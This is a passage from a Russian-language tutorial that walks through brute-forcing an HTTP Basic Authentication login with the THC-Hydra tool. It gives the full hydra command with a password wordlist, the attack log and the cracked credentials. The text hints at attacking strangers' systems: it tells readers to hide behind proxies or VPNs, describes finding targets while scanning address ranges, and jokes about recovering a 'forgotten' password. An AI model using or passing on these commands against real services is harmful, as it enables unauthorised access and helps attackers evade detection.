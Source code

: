 ### Гидра - фас!

Теперь давай рассмотрим пример работы на определенных целях. Все IP - вымышленные, соответствие с реальными - чистейшей воды совпадение ;)

> Ахтунг! Юзай proxy/socks/vpn для безопасности собственной задницы. Так, сугубо на всякий случай

#### Basic Authentication

Например, сканируя диапазон адресов мы натыкаемся на некоторый интерфейс, доступный по http протоколу, но закрытый для доступа при помощи Basic Authentication ([пример настройки с помощью nginx](http://nginx.org/ru/docs/http/ngx_http_auth_basic_module.html)):

![screen](https://habrastorage.org/files/2b8/736/1f8/2b87361f8217444ea5a12e36482fac53)

И у нас стоит задача вспомнить наш же забытый пароль ;) Давай определимся с тем, какие данные у нас есть:

- IP сервера `192.168.1.2`
- Сервис `http`
- Путь, который закрыт для нас запросом пары логин:пароль `/private/`
- Порт, на котором работает http сервер `80` (_стандартный_)

Предположим (_или любым доступным путем выясним_), что логин используется `admin`, и нам неизвестен лишь пароль. Подбирать будем с помощью заранее подготовленного словаря и с использованием модуля `http-get`:

```bash
$ hydra -l admin -P ~/pass_lists/dedik_passes.txt -o ./hydra_result.log -f -V -s 80 192.168.1.2 http-get /private/
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2015-08-12 13:01:25
[DATA] max 16 tasks per 1 server, overall 64 tasks, 488 login tries (l:1/p:488), ~0 tries per task
[DATA] attacking service http-get on port 80
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "!" - 1 of 488 [child 0]
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "!!!" - 2 of 488 [child 1]
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "!!!!" - 3 of 488 [child 2]
...
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "administrat0r" - 250 of 488 [child 0]
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "administrator" - 251 of 488 [child 2]
[ATTEMPT] target 192.168.1.2 - login "admin" - pass "administrator1" - 252 of 488 [child 13]
[80][http-get] host: 192.168.1.2   login: admin   password: admin
#                                  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
[STATUS] attack finished for 192.168.1.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-08-12 13:01:26

$ cat ./hydra_result.log
# Hydra v8.1 run at 2015-08-12 13:01:25 on 192.168.1.2 http-get (hydra -l admin -P /root/pass_lists/dedik_passes.txt -o ./hydra_result.log -f -V -s 80 192.168.1.2 http-get /private/)
[80][http-get] host: 192.168.1.2   login: admin   password: admin
#                                  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

```
